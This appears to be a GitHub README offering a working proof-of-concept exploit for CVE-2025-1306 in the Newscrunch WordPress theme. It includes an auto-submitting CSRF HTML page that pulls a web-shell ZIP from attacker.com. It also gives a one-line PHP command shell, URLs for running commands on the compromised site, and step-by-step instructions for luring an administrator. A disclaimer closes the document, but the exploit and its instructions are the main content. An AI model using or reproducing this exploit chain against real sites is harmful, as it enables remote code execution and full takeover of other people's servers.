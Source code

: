 # Newscrunch Exploit (CVE-2025-1306)

![CVE-2025-1306](https://img.shields.io/badge/CVE-2025-1306-critical-red)

## 🚨 Overview
This exploit targets a **Cross-Site Request Forgery (CSRF) to Arbitrary File Upload** vulnerability (**CVE-2025-1306**) in the **Newscrunch WordPress theme**. Due to missing **nonce validation** in the `newscrunch_install_and_activate_plugin()` function, an **unauthenticated attacker** can trick a logged-in administrator into uploading arbitrary files to the server, leading to **Remote Code Execution (RCE).**

---
## 🔥 **Vulnerability Details**

- **CVE ID:** CVE-2025-1306
- **Affected Software:** Newscrunch WordPress Theme (<= 1.8.4)
- **CWE Classification:** [CWE-352 - Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)
- **CVSS Score:** **8.8 (HIGH)**
- **Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H`
- **Published Date:** March 4, 2025

### **🛑 Severity & Impact**
- ✅ **Remote Code Execution (RCE)**
- ✅ **Full System Compromise**
- ✅ **CSRF-Based Arbitrary File Upload**
- ✅ **Unauthenticated Attack Vector**

**Exploitability:** Requires an administrator to visit a crafted malicious link.

---
## 📜 **Exploit Code**

This exploit forces an **authenticated administrator** to execute a **CSRF attack** that uploads a malicious ZIP file containing a web shell.

### **🔹 PoC - HTML Exploit**
```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Exploit CVE-2025-1306 By Nxploit ,Khaled AlEnazi</title>
</head>
<body>
    <h2>Click anywhere to load content...</h2>

    <script>
        function sendExploit() {
            var form = document.createElement("form");
            form.method = "POST";
            form.action = "http://target.com/wp-admin/admin-ajax.php?action=newscrunch_install_activate_plugin";

            var input = document.createElement("input");
            input.type = "hidden";
            input.name = "plugin_url";
            input.value = "http://attacker.com/shell.zip";

            form.appendChild(input);
            document.body.appendChild(form);
            form.submit();
        }

        
        window.onload = function() {
            sendExploit();
        };
    </script>
</body>
</html>

```
📌 **Replace:**
- `http://target.com/` with the **vulnerable WordPress site**
- `http://attacker.com/shell.zip` with a **malicious ZIP payload** containing a web shell.

### **🔹 Malicious PHP Shell Example**
```php
<?php system($_GET['cmd']); ?>
```
📌 **After successful exploitation**, access the shell:
```bash
http://target.com/wp-content/plugins/shell.php?cmd=whoami
```

---
## 🚀 **How to Use**
1. **Host the HTML file** on an attacker-controlled website.
2. **Send the malicious link to an authenticated WordPress administrator.**
3. Once the admin visits the page, the shell gets uploaded automatically.
4. **Execute commands remotely** using:
   ```bash
   http://target.com/wp-content/plugins/shell.php?cmd=ls
   ```

---
## ⚠️ **Disclaimer**
**This tool is for educational and security research purposes only.** Unauthorized exploitation of vulnerabilities is illegal and punishable by law. The author is **not responsible** for any misuse or damages caused by this tool. Use responsibly.

---


